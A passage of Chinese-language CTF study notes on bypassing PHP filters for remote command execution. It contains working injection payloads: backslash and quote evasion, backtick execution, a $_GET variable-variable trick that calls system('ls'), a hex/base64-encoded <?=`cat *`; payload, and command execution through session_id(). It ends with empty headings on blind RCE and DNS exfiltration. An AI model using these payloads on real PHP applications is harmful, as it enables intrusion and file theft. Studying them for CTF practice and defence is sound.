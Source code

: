 
4. 使用f"la'g.php同样能查看flag.php
5. 使用\绕过,如:c\a\t
6. echo `ls`或$(ls)可以执行命令
7. 可能会用的函数。
  * `extract()` 将数值转换成变量，如["aa"=>"bb","c"=>"223"] ->$aa="bb" $c="223"
  * `file_get_contents()` 读取文件搭配 echo
  * `highlight_file()` 代码高亮
  * `show_source()` 代码高亮
  * `rename()` 改名
  * `ini_set()`改php.ini中的配置
  * `var_export()`可以输出数组用的元素
  * `readgzfile()`可以读取非gz格式的文件
  * `implode ( string $separator , array $array )`用于将一个一维数组的元素连接成一个字符串。
  * `json_encode()`
  * `file_put_contents()`
  * `ob_get_contents()` 获取当前输出缓冲区的内容。ob_flush()、;ob_end_flush();输出缓冲器内容
  * `exit(); die()`;可以中断脚本运行
  * `glob('*')` 匹配文件

8.linux中 ${#}=0 ${##}=1 $?:$?是表示上一条命令执行结束后的传回值。通常0代表执行成功，非0代表执行有误
9.php代码GET请求写法：$_GET[] == $_GET{}
10.通过纯数字构造_GET或_POST执行 web124

```
$p=_GET
$$p[1]-->$_GET[1]
($$p[1])($$p[2]); --> ($_GET[1])($_GET[2]) 传入1=system&2=ls -->('system')('ls')
```

十六进制数的 _GET --> 5f474554 通过 bin2hex()实现，hex2bin()转回_GET
11.可绕过is_numeric的数字payload 115044383959474e6864434171594473 hex2bin--> PD89YGNhdCAqYDs base64--> <?=`cat *`;

11. session_id()

    ```php
    session_start();system(hex2bin(session_id()));
    Cookie: PHPSESSID=asadfsdf
    ```

### 无回显RCE
#### DNS外带
##### ip地址 int类型绕过
#### vps建立记录脚本
#### base盲注&